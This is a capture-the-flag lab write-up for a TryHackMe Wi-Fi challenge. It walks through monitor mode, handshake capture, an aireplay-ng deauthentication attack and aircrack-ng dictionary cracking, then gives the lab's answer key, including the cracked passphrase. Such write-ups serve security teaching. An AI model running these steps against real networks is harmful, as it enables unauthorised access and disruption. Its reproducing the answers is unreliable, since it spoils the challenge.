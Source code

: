 # TryHackMe Advent of Cyber - Day 11: If you'd like to WPA, press the star key!

The challenge revolves around Wi-Fi security, particularly the WPA/WPA2 cracking process. The narrative follows Glitch, the protagonist, as they prepare to thwart Mayor Malware's malicious attempts by demonstrating a practical Wi-Fi attack.

## Key Learning Objectives
1. **Understanding Wi-Fi**:
   - Basics of Wi-Fi technology and its importance.
   - Concepts of SSID, pre-shared key (PSK), and device connectivity.

2. **Exploring Wi-Fi’s Role in Organizations**:
   - How Wi-Fi facilitates business operations.
   - Risks posed by broadcasting SSIDs and potential attacks.

3. **Wi-Fi Attacks**:
   - Evil twin attack.
   - Rogue access point.
   - WPS attack.
   - WPA/WPA2 cracking.

4. **Executing WPA/WPA2 Cracking**:
   - Capturing the 4-way handshake.
   - Understanding vulnerabilities.
   - Using tools to crack the Wi-Fi password.

---

## WPA/WPA2 Cracking Process

To show any wireless devices and their configuration that we have available for us to use, we must run:

```
iw dev
```

### Capturing the Handshake
1. **Setting Up Monitor Mode**:
   - Change the wireless adapter to monitor mode to listen to traffic.
   - Command:
    ```
    sudo ip link set dev wlan2 down

    sudo iw dev wlan2 set type monitor

    sudo ip link set dev wlan2 up
    ```
2. **Scanning Networks**:
   - Use `sudo iw dev wlan2 scan` to detect available Wi-Fi networks.
   - Target network: `MalwareM_AP` (SSID) with WPA2 encryption.
3. **Using Airodump-ng**:
   - Start monitoring traffic on the specific channel of the target network.
   - Command: `sudo airodump-ng wlan2`.

### Deauthentication Attack
- Force a connected client to reconnect to capture the handshake:
  - Command: `sudo aireplay-ng -0 1 -a <BSSID> -c <Client MAC> wlan2`.
- Check for handshake capture in the Airodump-ng terminal.

### Cracking the Password
- Use a dictionary attack with Aircrack-ng:
  - Command: `sudo aircrack-ng -a 2 -b <BSSID> -w <wordlist> <handshake file>`.
- Example wordlist: `rockyou.txt`.
- Successful crack reveals the PSK.

---

## Practical Application
1. **Joining the Network**:
   - Configure the cracked PSK to connect to the network.
   - Command sequence:
     ```bash
     wpa_passphrase <SSID> '<PSK>' > config
     sudo wpa_supplicant -B -c config -i wlan2
     ```

2. **Inspecting the Network**:
   - Analyze the network for vulnerabilities or further investigate connected devices.

---

## Key Takeaways
- Wi-Fi networks, even those secured with WPA2, can be vulnerable if weak passwords are used.
- Understanding and practicing Wi-Fi security measures can help protect against real-world attacks.
- Tools like Aircrack-ng, Airodump-ng, and Aireplay-ng demonstrate how attacks work for educational and preventive purposes.

---

## Questions

1. What is the BSSID of our wireless interface?
    >02:00:00:00:02:00
2. What is the SSID and BSSID of the access point? Format: SSID, BSSID
    >MalwareM_AP, 02:00:00:00:00:00
3. What is the BSSID of the wireless interface that is already connected to the access point?
    >02:00:00:00:01:00
4. What is the PSK after performing the WPA cracking attack?
    >fluffy/champ24